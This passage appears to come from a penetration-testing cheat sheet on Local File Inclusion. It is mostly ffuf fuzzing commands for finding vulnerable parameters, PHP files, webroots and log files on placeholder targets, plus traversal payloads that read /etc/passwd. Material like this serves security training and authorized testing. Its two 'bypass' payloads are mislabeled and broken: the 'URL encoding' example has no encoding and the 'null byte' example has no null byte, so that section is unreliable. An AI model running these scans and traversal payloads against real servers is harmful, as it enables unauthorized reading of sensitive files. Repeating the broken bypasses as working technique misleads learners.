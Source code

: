 #### 3.3.1 Local File Inclusion (LFI)

Local File Inclusion (LFI) allows attackers to read or execute files on the server by exploiting file
                inclusion mechanisms.

##### 3.3.1.1 Scanning for LFI

- URL LFI **Example**:

    http://<target_url>/file.php?recurse=<file_name>
    

- **Normal Fuzzing**:

    ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u &#39;http://<SERVER_IP>:<PORT>/index.php?language=FUZZ&#39; -fs 2287
    

- **Fuzz `GET` Parameters**:

    ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u &#39;http://<SERVER_IP>:<PORT>/index.php?FUZZ=value&#39; -fs 2287
    

- **Fuzz PHP Files**:

    ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
    

- **Fuzz Webroot**: to fuzz for index.php use [wordlist
                    for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or [wordlist
                    for windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt), or this [general
                    wordlist alternative](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt); consider that depending on our LFI situation, we may need to add a few
                  back directories (e.g. `../../../../`), and then add our index.php afterwords.

    ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u &#39;http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php&#39; -fs 2287
    

- **Fuzz Server Logs and Configs**: we can use the same wordlists as before.

    ffuf -w ./LFI-WordList-Linux:FUZZ -u &#39;http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ&#39; -fs 2287
    

##### 3.3.1.2 Bypassing LFI Protections

Sometimes protections are in place to prevent directory traversal. These are common techniques to
                bypass such restrictions:

    # URL encoding bypass
    http://<target_url>/file.php?recurse=../../../../../etc/passwd% 
    
    # Null byte injection bypass
    http://<target_url>/file.php?recurse=../../../../../etc/passwd?nullbyte
    